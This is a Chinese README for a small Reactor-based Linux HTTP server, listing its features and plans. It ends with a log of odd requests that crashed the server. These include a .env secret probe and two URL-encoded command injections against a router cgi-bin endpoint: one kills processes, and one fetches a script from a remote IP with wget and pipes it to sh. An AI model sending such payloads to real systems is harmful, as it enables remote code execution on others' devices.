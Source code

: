 # MyWeb

本项目开发了一个基于Linux平台的轻量级HTTP服务器
* 采用了Reactor高并发模型
* 支持Select、Poll、Epoll三种IO复用方式
* 服务器通过状态机解析HTTP请求报文
* 使用自动增长的缓冲区来提升性能稳定性
* 通过WebBench对服务器进行了性能和压力测试，确保了其稳定性和可靠性。

计划：
* 引入MySQL，实现一个注册登录界面
* 处理POST请求
* 定时器
* 日志系统
* 实现Proactor模型
* 消息队列
* 分布式

奇怪的get请求，接收到以后，服务器就会挂，慢慢解决
* GET /.env HTTP/1.0
* GET /portal/redlion HTTP/1.0
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=id%3E%60for+pid+in+%2Fproc%2F%5B0-9%5D%2A%2F%3B+do+pid%3D%24%7Bpid%25%2F%7D%3B+pid%3D%24%7Bpid%23%23%2A%2F%7D%3B+exe_path%3D%24%28ls+-l+%2Fproc%2F%24pid%2Fexe+2%3E%2Fdev%2Fnull+%7C+awk+%27%7Bprint+%24NF%7D%27%29%3B+if+%5B%5B+%24exe_path+%3D%3D+%2A%2F+%5D%5D%3B+then+kill+-9+%24pid%3B+fi%3B+done%3B%60 HTTP/1.0
* GET http://www.ys168.com/?0.301155930654163458905783120 HTTP/1.1
* GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60wget+-O-+http%3A%2F%2F154.216.17.31%2Ft%7Csh%3B%60) HTTP/1.0
* HEAD / HTTP/1.0
